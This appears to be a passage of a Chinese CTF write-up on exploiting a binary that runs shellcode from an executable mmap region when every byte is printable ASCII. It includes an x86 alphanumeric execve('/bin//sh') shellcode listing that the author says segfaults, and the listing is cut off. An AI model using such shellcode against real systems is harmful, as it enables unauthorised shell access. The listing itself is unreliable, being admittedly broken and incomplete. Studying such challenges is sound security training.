 MMAP分配的内存rwxp可执行

![xfgSQP](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/xfgSQP.png)



**call rbx**这个指令，即可执行我们的shellcode，我们要做的就是让程序跳转到0x4002E6,然后需要保证r13d和r12d相等就可以getshell了。

![OERzkU](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/OERzkU.png)

![pRLYMX](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/pRLYMX.png)

R12是read读取的返回值

R13是循环次数

重新看一下伪代码，就是要shellcode中间字符不得出现在0x1F和0x7F之间，否者程序会停止。每次循环R13都会+1.这样重要的就是检测shellcode的字符了，要保证shellcode的每一个字符都在1f和7f之间。也就是都是可见字符。

![eliwlu](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/eliwlu.png)

理论上只需要写入可见字符版本的shellcode就行了，在网上找了个ascii-shellcode,但是一直段错误，搞不明白。

```asm
shellcode = '''
    push 0x68                
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx                    
    push edx           

    /*构建int 80*/
    push 0x4f
    pop ecx
    push edx
    pop eax
    sub byte ptr[eax + 0x3a] , cl
    sub byte ptr[eax + 0x3a] , cl
    
    push 0x60       
    pop ecx  
    sub byte ptr[eax + 0x3b] , cl 
    sub byte ptr[eax + 0x3b] , cl
    
    /*构建完成 eax+0x39处为80cd(int 80)*/

    /*edx=0*/
    push 0x40
    pop eax
    xor al,0x40
    push eax
    pop edx

    /*eax=0xb*/
    xor al, 0x40
    xor al, 0x4b    

    /*补全shellcode长度，到rax+3a也就是shellcode+3a处*/
    push edx
    pop ecx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
```